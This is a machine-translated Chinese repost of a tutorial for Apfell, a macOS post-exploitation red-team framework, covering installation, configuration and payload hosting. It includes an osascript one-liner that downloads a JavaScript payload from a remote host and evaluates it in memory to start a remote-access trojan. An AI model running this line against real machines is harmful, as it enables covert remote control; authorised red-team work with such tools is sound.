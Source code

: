 # AP fell——一个 MacOS，后剥削，红色组队框架

> 原文：<https://kalilinuxtutorials.com/apfell-macos-framework/>

Apfell 是一个 macOS，post-exploit，red teaming 框架，用 python3 和 JavaScript 构建。它旨在为基于 mac 和 linux 的 red 团队中的操作员、经理和报告人员提供一个协作和用户友好的界面。这是一个正在进行中的工作，因为我有空闲时间，所以请原谅我。

**也可理解为[Firebase——利用错误配置的 Firebase 数据库的工具](https://kalilinuxtutorials.com/firebase-misconfigured-databases/)**

## **Apfell 安装**

*   从这个 github 获取代码:

```
**git clone https://github.com/its-a-feature/Apfell**
```

*   安装并设置需求(注意:Sanic 服务器说它只在 Linux 上工作):

```
**# The setup.sh will install postgres and pip3 install the requirements
cd Apfell && chmod +x setup.sh && sudo ./setup.sh && cd ..**
```

*   在 app/__init__ 中配置安装。py:

```
**# -------- CONFIGURE SETTINGS HERE -----------
db_name = 'apfell_db'
db_user = 'apfell_user'
db_pass = 'super_secret_apfell_user_password'
server_ip = '127.0.0.1'  # this will be used by the browser to callback here, edit this!
listen_port = '443'
listen_ip = '0.0.0.0'  # IP to bind to for the server, 0.0.0.0 means all local IPv4 addresses
ssl_cert_path = './app/ssl/apfell-cert.pem'
ssl_key_path = './app/ssl/apfell-ssl.key'
use_ssl = True**
```

*   目前 Sanic 和 websockets 6/7 有一个问题(跟踪的问题，但还没有拉请求)您需要编辑 Sanic 并稍作更新(我将为 Sanic 发出一个拉请求，因此我们不需要这样做，但这需要一点时间)。同时，执行`**sudo find / -type f -name "app.py"**`找到合适的 Sanic 文件进行编辑。在这里，找到显示`protocol = **request.transport._protocol**`的行，并将其编辑为:

```
**if hasattr(request.transport, '_app_protocol'): 
    protocol = request.transport._app_protocol
else: 
    protocol = request.transport._protocol**
```

## **用途**

*   启动服务器:

```
**python3 server.py 
[2018-07-16 14:39:14 -0700] [28381] [INFO] Goin' Fast @ https://0.0.0.0:443**
```

默认情况下，服务器将绑定到端口 443 上的 0.0.0.0。这是一个别名，意味着它将侦听机器上的所有 IPv4 地址。你实际上并没有在你的浏览器中浏览到[https://0 . 0 . 0:443](https://0.0.0.0:443)。相反，如果你在运行服务器的同一台机器上，你可以浏览到 [https://localhost:443](https://localhost:443) ，或者你可以浏览到运行服务器的机器上的任何 IPv4 地址。您也可以浏览到您在安装部分的`**server_ip = '192.168.0.119'**`中指定的 IP 地址。

*   **使用任何现代网络浏览器浏览服务器**

![](img//621367faa10359e6dc022982f3c61586.png)

*   **创建新用户:**

![](img//6da60967cee1cd5fb33d18d27ecd99d4.png)

*   **创建新的有效载荷:**

![](img//1a94399ebdbe459d288b1d8f08d61195.png)

*   **托管新的有效载荷:**

![](img//5da2620746986d79bad96ab059a2fccf.png)

This will start a python simple web server in the /tmp directory on port 8080.

*   下拉并执行内存中的有效负载:

```
**osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119:8080/apfell-jxa')),$.NSUTF8StringEncoding)));"** 
```

*   **与新老鼠互动:**

![](img//d7f9f340a24f488601942669a654a501.png)

## **服务器内帮助**

一旦你登录到 Apfell，你可以访问一些额外的帮助。

*   **命令行**–提供关于如何通过终端和 Curl 与 RESTful 接口交互的信息
*   **文档**——最终将提供一份更全面的手册，介绍如何组织 Apfell，如何扩展它，日志如何工作，以及如何与仪表板交互
*   **AP fell-jxa help**–提供有关可发送给 apfell-jxa RAT 的命令行、其工作方式及其参数的帮助

[![https://github.com/Nekmo/dirhunt](img//d861a9096555aeb1980fc054015933d7.png)](https://github.com/its-a-feature/Apfell)